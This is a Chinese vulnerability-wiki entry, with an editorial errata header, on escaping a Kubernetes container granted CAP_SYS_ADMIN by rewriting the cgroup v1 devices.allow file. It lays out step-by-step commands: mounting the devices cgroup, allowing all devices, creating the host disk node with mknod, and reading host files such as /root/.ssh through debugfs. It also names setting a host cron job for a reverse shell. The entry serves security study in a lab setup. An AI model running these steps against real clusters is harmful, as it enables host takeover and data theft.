




# 挂载重写-cgroup-devices.allow-导致容器逃逸

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Linux cgroup v1 devices / 容器capabilities
- 文献类型：cgroup设备控制危险配置逃逸教程
- 版本、权限及部署边界：CAP_SYS_ADMIN、可挂载/修改devices层级、CAP_MKNOD/设备及LSM允许；示例AppArmor unconfined、K8s1.32/旧Docker组合，cgroupv1
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. YAML只加SYS_ADMIN并解除AppArmor，不等于privileged:true；标题/描述特权容器与实际配置应区分
2. 机制依赖cgroup v1 devices控制器，不能适用统一cgroupv2；父cgroup约束/namespace挂载权限未说明，单SYS_ADMIN不保证成功
3. devices.list是当前允许规则列表，不是同时列黑白名单；devices.allow/deny是写入调整接口应准确表述
4. 第二步与第三步提示符中的Pod/容器ID变化，可能混用两次实验，应保持同一会话证据
5. mountinfo awk固定列8/grep/etc不稳健，major/minor对应Minikube节点哪一层磁盘需说明，不能自动指用户物理宿主盘
6. SYS_ADMIN/AppArmor配置和latest镜像需固定环境，CDK实际命令仅图；直接挂载正在使用文件系统可能损坏数据，未说明只读/副作用
7. 删除Pod/namespace不足恢复设备策略或宿主定时任务等修改；保留完整YAML/源链接，图片未视检

### 操作风险

devices.list是当前允许规则列表，不是同时列黑白名单；devices.allow/deny是写入调整接口应准确表述；SYS_ADMIN/AppArmor配置和latest镜像需固定环境，CDK实际命令仅图；直接挂载正在使用文件系统可能损坏数据，未说明只读/副作用

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/cdk-team/CDK/wiki/Exploit:-rewrite-cgroup-devices>
- 原文参考链接（未重新核验）：<https://blog.nsfocus.net/docker/>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md>
- 原文参考链接（未重新核验）：<https://github.com/cdk-team/CDK>
- 原文参考链接（未重新核验）：<https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/cap_sys_admin-container.yaml>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

在具有 `CAP_SYS_ADMIN` 权限的容器中，通过挂载并重写容器内的 `/sys/fs/cgroup/devices/devices.allow` 文件，解除 cgroup 设备访问限制，从而逃逸特权容器并访问宿主机内的文件。

devices 子系统用于配制允许或者阻止 cgroup 中的 task 访问某个设备，起到黑白名单的作用，主要包含以下文件：

1. devices.allow：cgroup 中的 task 能够访问的设备列表，格式为 `type major:minor access`
2. devices.deny：cgroup 中任务不能访问的设备，和上面的格式相同
3. devices.list：列出 cgroup 中设备的黑名单和白名单

漏洞利用原理：

1. 创建空目录挂载 cgroup devices 子系统
2. 确定当前容器对应的子 cgroup 位置
3. 设置其 devices.allow 文件为 `a`，表示所有设备均可访问
4. 获得宿主机的设备 major 和 minor
5. 通过 mknod 根据设备 major 和 minor 手动创建设备文件
6. 利用 debugfs 或直接挂载设备文件访问宿主机文件
7. 设置宿主机定时任务等方式反弹 shell

参考链接：

- https://github.com/cdk-team/CDK/wiki/Exploit:-rewrite-cgroup-devices
- https://blog.nsfocus.net/docker/

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f cap_sys_admin-container.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `cap-sys-admin-container` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                      READY   STATUS    RESTARTS   AGE
cap-sys-admin-container   1/1     Running   0          55s
```




## 漏洞复现

进入 pod 进行漏洞利用：

```
kubectl exec -n metarget -it cap-sys-admin-container -- /bin/bash
```

- 第一步，创建空目录挂载 cgroup devices 子系统：

```
root@cap-sys-admin-container:/# mkdir /tmp/dev && mount -t cgroup -o devices devices /tmp/dev
```

- 第二步，确定当前容器对应的子 cgroup 位置：

```shell
# 通过 docker info | grep -i cgroup 查看 Cgroup Driver
# Cgroup Driver: cgroupfs 驱动则执行：
root@cap-sys-admin-container:/# cat /proc/self/cgroup | grep docker | head -1 | sed 's/.*\/docker\/\(.*\)/\1/g'
f873f626e2cbc74eeae5c2b5c624f7fe1ed92e26b37a244d30d70403a1802ee8/kubepods/besteffort/pod0b4bfb60-28b0-42bf-8ec4-6907aa6fe271/8233389d820eb154868c9d14dfe6c902202003b24e53a77811ecf9c8daf0776a
root@cap-sys-admin-container:/# cd /tmp/dev/docker/f873f626e2cbc74eeae5c2b5c624f7fe1ed92e26b37a244d30d70403a1802ee8/kubepods/besteffort/pod0b4bfb60-28b0-42bf-8ec4-6907aa6fe271/8233389d820eb154868c9d14dfe6c902202003b24e53a77811ecf9c8daf0776a

# Cgroup Driver: systemd 驱动则执行：
mount -l | grep kubepods
-----
cgroup on /sys/fs/cgroup/systemd/kubepods.slice/kubepods-burstable.slice/xxx type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/usr/lib/systemd/systemd-cgroups-agent,name=systemd) 
-----
cd /tmp/dev/kubepods.slice/kubepods-burstable.slice/xxx
```

- 第三步，设置其 devices.allow 文件为 `a`，表示所有设备均可访问：

```
root@cap-sys-admin-container:/tmp/dev/docker/f873f626e2cbc74eeae5c2b5c624f7fe1ed92e26b37a244d30d70403a1802ee8/kubepods/besteffort/podeda81e29-d18b-
45e5-af93-1ba96c6f02e1/979a724c1ad544b8bbd8bbb8ec6ce2ca1f61ffe3ddd9088c8242d7238a7a647b# echo a > devices.allow && cd /tmp
```

- 第四步，获得宿主机的设备 major 和 minor：

```
root@cap-sys-admin-container:/tmp# cat /proc/self/mountinfo | grep /etc | awk '{print $3,$8}' | head -1
8:1 ext4
```

- 第五步，通过 mknod 根据设备 major 和 minor 手动创建设备文件：

```
root@cap-sys-admin-container:/tmp# mknod host b 8 1
```

- 第六步，利用 debugfs 或直接挂载设备文件访问宿主机文件：

```
root@cap-sys-admin-container:/tmp# debugfs host
debugfs: ls  -l /root/.ssh
 6291704   40755 (2)      0      0    4096 21-Apr-2025 09:59 .
 6291457   40700 (2)      0      0    4096  3-Jun-2025 06:26 ..
 6291718  100644 (1)      0      0     553 21-Apr-2025 09:59 authorized_keys
```

```shell
# 如果是 ext2/ext3/ext4 文件系统，可以用 debugfs 查看目录
# 如果是 xfs 文件系统，不支持 debugfs，需要挂载
root@cap-sys-admin-container:/tmp# mkdir /tmp/host_dir && mount host /tmp/host_dir
root@cap-sys-admin-container:/tmp# ls -l /tmp/host_dir/root/.ssh
```




也可以通过 [CDK](https://github.com/cdk-team/CDK) 复现。下载 CDK ，将其传入容器 ：

```
kubectl cp cdk cap-sys-admin-container:/ -n metarget
kubectl exec -n metarget -it cap-sys-admin-container -- chmod +x /cdk
```




重写当前容器内的 `/sys/fs/cgroup/devices/devices.allow`，逃逸特权容器访问宿主机内的文件：




## 环境复原

```
kubectl delete -f cap_sys_admin-container.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[cap_sys_admin-container.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/cap_sys_admin-container.yaml)

```
apiVersion: v1
kind: Pod
metadata:
  name: cap-sys-admin-container
  namespace: metarget
  annotations:
    container.apparmor.security.beta.kubernetes.io/ubuntu: unconfined
spec:
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    securityContext:
      capabilities:
        add: ["SYS_ADMIN"]
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
